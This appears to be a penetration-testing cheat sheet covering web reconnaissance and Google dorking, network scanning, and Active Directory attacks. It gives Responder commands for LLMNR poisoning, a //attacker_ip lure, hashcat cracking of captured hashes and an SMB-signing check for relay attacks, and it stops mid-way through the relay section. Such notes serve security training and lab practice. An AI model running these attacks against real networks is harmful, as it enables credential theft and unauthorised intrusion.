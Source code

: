 Identifying website technologies=>

https://builtwith.com/

wappanalyzer tool

```bash
whatweb https://tesla.com
```

Google Dorking=>

site:tesla.com  (returns results from only tesla.com website)

-www (remove results which have 'www' values)

filetype:docx  (return results which filetype is docx.)

# Enumeration
```bash
arp-scan -l  
```

```bash
netdiscover -r 192.168.57.0/24
```

```bash
nmap -T4 -p- -sS -A 192.168.57.134
```

# Initial attacks for Active Directory

LLMNR Poisoning=>
![LLMNR](images/image2.png)

How to do=>

1.Open responder:
```bash
responder -I tun0 -dwPv 
```

2.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

3.Responder will give you result,you will crack in this way.
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists  rockyou.txt
```

SMB Relay=>
For this attack works, SMB Signing must be **disabled**.

1.Checking SMB signing:
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

